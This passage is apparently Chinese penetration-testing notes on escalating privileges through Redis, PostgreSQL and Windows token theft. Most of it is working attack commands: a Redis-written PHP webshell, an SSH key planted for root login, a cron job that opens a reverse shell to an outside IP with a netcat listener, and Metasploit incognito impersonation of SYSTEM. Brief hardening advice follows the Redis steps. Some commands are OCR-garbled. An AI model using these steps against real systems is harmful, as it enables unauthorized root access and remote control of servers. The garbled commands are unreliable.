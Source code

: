   ```powershell
  set webshell "<?php phpinfo();?>"
  set x "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
  # \r\n\r\n代表换行的意思，用redis写入的文件会自带一些版本信息，如果不换行可能会导致无法执行
  save
  2.利用"公私钥"认证获取root权限
  需要root权限，并且有ssh服务
  当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器
  在攻击机中生成ssh公钥和私钥，密码设置为空
  ssh -keygen -t rsa
  将公钥信息保存到1.txt ./ssh/id_rsa.pub
  连接redis将信息写入authorized_keys中 路径默认/root/.ssh中
  免密登录
  ssh -i id_rsa root@192.168.216.123
  
  3.利用计划任务执行命令反弹shell(最常见)
  本地监听
  nc-lvnp 1234
  连接redis写入
  set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
  config set dir /var/spool/cron/
  config set dbfilename root
  save
  ps:此处使用bash反弹shell，也可使用其他方法
  
  # 安全配置
  1.限制登录ip
  2.添加密码
  3.修改默认端口
  ```

  * PostgreSQL（拥有用户和密码，连接上）

    PostgreSQL 是一款关系型数据库。其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

    * CVE-2019-9193 CVE-2018-1058

    升级版本或打上补丁

* 溢出漏洞（重要）
  * cmd工具或powershell
  * CVE-2020-0787
* 令牌窃取（2008之后的操作系统就没有了,属于本地提权，但是不过什么系统，令牌窃取都可以试一试，万一成功了呢）

进行远程过程调用时请求提升权限，然后调用它从而生成特权安全令牌以执行特权操作。当系统允 许令牌不仅用于进程本身，还用于原始请求进程时，漏洞就会出现。

```powershell
Microsoft Windows XP Professional SP3 和之前版本
Windows Server 2003 SP2 和之前的版本
Windows Server 2003 x64 和 x64 SP2
Windows Server 2003（用于基于 Itanium 的系统 SP2 和先前版本）
Windows Server 2008 x32 x64
Windows Server 2008（用于基于 Itanium 的系统）
Windows Vista SP1 和之前的版本
Windows Vista x64 SP1 和之前的版本
msf拿到低权限终端
use incognito
list_tokens -u # 可以窃取的令牌用户
impersonate_token "NT AUTHORITY\SYSTEM"

# 令牌窃取配置烂土豆提权

单纯令牌窃取：适用Web权限或本地提权

如果配合烂土豆提权：适用web或数据库等权限

# 案例一 Windows 2012烂土豆配合令牌窃取-Web权限
```